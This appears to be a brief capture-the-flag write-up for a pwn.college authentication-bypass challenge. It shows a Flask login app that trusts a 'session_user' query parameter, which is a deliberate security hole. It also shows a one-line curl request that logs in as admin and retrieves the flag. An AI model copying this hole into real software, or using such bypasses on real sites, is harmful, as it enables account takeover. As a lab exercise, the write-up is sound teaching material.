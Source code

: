 ```python3
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    return flask.redirect(f"""{flask.request.path}?session_user={username}""")


@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.args.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """

if __name__ == "__main__":
    app.run()


```



## 实现

我的exp

```bash
hacker@web-security~authentication-bypass-1:~$ curl http://challenge.localhost:80/?session_user=admin
<html><body>Hello, admin!<br>Here is your flag: pwn.college{sVPdxjB5_37fjKs0IdbId1NlsbS.QX5gzMzwCO5IzW}

        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    hacker@web-security~authentication-bypass-1:~$ 
```